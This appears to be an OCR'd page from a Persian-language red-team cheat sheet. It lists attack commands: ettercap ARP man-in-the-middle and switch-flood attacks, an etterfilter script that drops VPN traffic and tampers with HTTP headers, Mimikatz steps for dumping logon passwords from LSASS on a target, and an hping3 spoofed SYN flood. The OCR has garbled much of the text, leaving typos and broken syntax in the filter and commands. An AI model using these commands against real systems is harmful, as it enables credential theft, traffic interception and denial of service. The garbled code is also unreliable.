 ### حمله Main-In-Middle در subnet با  فیتلر های کاربردی

```text
ettercap -T -M arp -F filter // //
```

### حمله Switch flood

```text
ettercap -TP rand flood
```

## فیلتر های Ettercap

### کامپایل فیلتر های ettercap 

```text
etterfilter filter.filter -o out.ef
```

### فیلتر نمونه - حذف ترافیک vpn  و مزگشایی ترافیک http

```text
if lip.proto == UDP && udp.dst == 500) I
    drop();
    kill(); }
if I ip.src == 'ip' ) (
    if (tcp.dst == 80) (
        if (search(DATA.data, "Accept-Encoding")) (
            replace("Accept-Encoding","Accept-Rubbish!");
            msg("Replaced Encoding\n");
        }
    }
}
```

### دستور Mimikatz

```text
1. Upload mimikatz.exe and sekurlsa.dll to target
2. execute mirnikatz
3. mimikatz# privilege: :debug
4. mimikatz# injeet::proeess lsass.exe sekurlsa.dll
5. mimikatz# @getLogonPasswords
6. sekurlsa::minidump /users/redteam/Desktop/lsass.DMP
7. sekurlsa::LogonPasswords
```

### دستور Hping3

```text
hping3 targetiP --flood --frag --spoof ip --destport # --syn
```
